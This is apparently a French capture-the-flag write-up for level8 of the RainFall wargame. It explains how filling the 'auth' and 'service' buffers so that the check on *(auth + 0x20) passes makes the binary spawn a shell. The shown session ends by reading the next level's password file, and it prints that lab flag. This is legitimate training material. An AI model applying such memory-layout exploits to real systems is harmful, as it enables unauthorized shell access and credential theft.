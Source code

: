 # Level ouit

- Dans le code on comprends qu'il y a plusieurs commande pour assigner des strings a des variables 
```
commandes:
auth <str>
service <str>
reset
login
```
- On comprend aussi qu'un shell est lancer sous condition que *(auth + 0x20) ne soit pas egale à zero
- Donc il suffit de remplir les variables auth et service pour etre sure que cette variable ne soit pas egale a 0
```
level8@RainFall:~$ ./level8
(nil), (nil) 
auth bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb
0x804a018, (nil) 
service aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
0x804a018, 0x804a028 
login
$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```
